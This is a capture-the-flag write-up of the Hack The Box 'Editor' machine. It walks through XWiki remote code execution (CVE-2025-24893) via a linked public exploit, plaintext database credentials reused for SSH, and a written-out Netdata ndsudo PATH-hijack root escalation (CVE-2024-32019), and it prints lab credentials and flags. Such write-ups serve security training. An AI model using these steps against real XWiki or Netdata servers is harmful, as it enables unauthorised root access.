# Editor - Hack The Box  


## Overview
**Editor** is an Easy difficulty Linux machine on Hack The Box that demonstrates exploitation of a vulnerable web service (XWiki), credential discovery, and privilege escalation through a Netdata misconfiguration.  
The attack chain highlights real-world issues such as outdated software (CVE-2025-24893) and insecure `PATH` handling (CVE-2024-32019).



---

## Enumeration
1. **Nmap Scan**
```bash
nmap -sCV -p- editor.htb
```


   - Open ports: `22 (SSH)`, `80 (HTTP)`, `8080 (XWiki)`
   - Web service: XWiki 15.10.8 detected.

2. **Host File Configuration**

This allowed me to access the website directly by visiting http://editor.htb.



---

2. **Web Enumeration**
- Accessing `http://editor.htb:80` reveals a futuristic code editor website. 
- Not sure anything interesting here after going through the website, let's move on to the next website.


- Accessing `http://editor.htb:8080` reveals an **XWiki** login portal.
- Version check shows it is vulnerable to RCE.



---

## Exploitation

### Step 1 – XWiki RCE (Foothold)
- Vulnerability: **CVE-2025-24893**
- Exploit: Remote Code Execution via crafted payload.
- Public PoC available (e.g., [dollarboysushil/CVE-2025-24893](https://github.com/dollarboysushil/CVE-2025-24893-XWiki-Unauthenticated-RCE-Exploit-POC)).
- Result: Reverse shell obtained as user **`xwiki`**.









Trying to access the home folder, we been restricted from accessing the **oliver** directory as we does not have the permission as user **oliver**.



Now for **initial step** to gain the escalated priviledge, let's download **linpeas.sh** from my machine into the server.



Let's run the linpeas.sh to scan through the server to find **vulnerabilities**.



Now, there is a section displayed in the linpeas.sh that reveal the locations that might be interesting to find the **potential credentials**.



### Step 2 – Credential Discovery
- Inside `/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml`, credentials are stored in plaintext:
```xml
<property name="connection.username">oliver</property>
<property name="connection.password">theEd1t0rTeam99</property>
```






- SSH with these credentials:
  ```bash
  ssh oliver@editor.htb
  ```
- User flag obtained: `user.txt`.



**User Flag:** `f3314c85e144f791a8a5e0fc31c67118`

---

## Privilege Escalation

### Step 3 – Netdata PATH Hijack
- Local service: **Netdata** running on port `19999`.
- Binary: `/usr/bin/ndsudo` (SUID root).
- Issue: Trusts the `PATH` environment → vulnerable to **CVE-2024-32019**.



#### Automated Exploitation:



Let's clone the repo and compile the binary first in my machine before transfering it to the victim's server.



After downloading it into the server, we need to hijack the path to the original nvme binary file to our malicious nvme binary file (in tmp).



Let's use the `-h option` to see how to run the ndsudo file.

Here the interesting part:

- For `nvme` we have 2 command:
1. nvme-list 
2. nvme-smart-log 

- For `megacli` we have 2 command:
1. megacli-disk-info
2. megacli-battery-info 

- For `arcconf` we have 2 command:
1. arcconf-ld-info
2. arcconf-pd-info



Now, because we created the malicious named **nvme**, let's run the ndsudo with the command **nvme-list**.

Lets gooo!!! We've got the **Root permission**!



**Root Flag:** `db0284a56b422ffbac5aff84badac070`

#### Alternate Manual Exploitation:
1. Create a malicious binary:
   ```bash
   echo '/bin/bash -p' > nvme
   chmod +x nvme
   ```
2. Prepend current directory to `PATH`:
   ```bash
   export PATH=.:$PATH
   ```
3. Execute:
   ```bash
   ndsudo nvme-list
   ```
4. Root shell obtained.  
   Read the root flag: `root.txt`.

---

### MACHINE PWNED 


> **⚠️ Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before testing security tools and techniques. The author is not responsible for any misuse of the information provided.

**🎯 Machine Completed:** `9 Sep 2025`
**🏆 Flags Captured:** `2/2`
